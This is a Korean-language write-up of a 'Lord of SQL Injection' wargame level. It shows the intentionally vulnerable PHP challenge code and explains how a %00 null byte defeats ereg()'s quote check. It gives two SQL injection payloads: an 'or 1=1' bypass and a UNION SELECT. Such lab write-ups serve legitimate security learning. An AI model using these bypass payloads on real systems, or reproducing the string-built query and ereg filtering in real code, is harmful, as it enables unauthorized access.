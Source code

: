 # Lord of SQL Injection No.16 - Zombie assassin
## 문제 출제 의도
1. ereg함수의 취약점의 이해 여부 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(@ereg("'",$_GET[id])) exit("HeHe"); 
    if(@ereg("'",$_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) solve("zombie_assassin"); 
    highlight_file(__FILE__); 
?>
~~~
## 소스 코드 분석
+ ereg()함수
    * ereg()함수는 다음과 같은 형식을 취한다.
    ~~~
    ereg("찾고자 하는 문자", "임의의 값")
    ~~~
    * ereg 함수는 대 소문자를 구분하며 eregi 함수는 대소문자를 구별하지 않는다.
    * ereg 함수는 취약점 때문에PHP 5.3+부터 사용되지 않고 6.0부터 삭제된다.
    * ereg 함수는 %00(NULL)문자를 만나면 탐색을 종료한다.

## 문제 해결
1. SQL injection
    - 다음과 유사한 방법으로 문제를 해결 가능하다.
    ~~~
    ?id=%00' or 1=1 -- -
    ~~~
2. UNION
    - 다음과 유사한 방법으로 문제를 해결 가능하다.
    ~~~
    ?id=%00' UNION(SELECT 'admin') -- -
    ~~~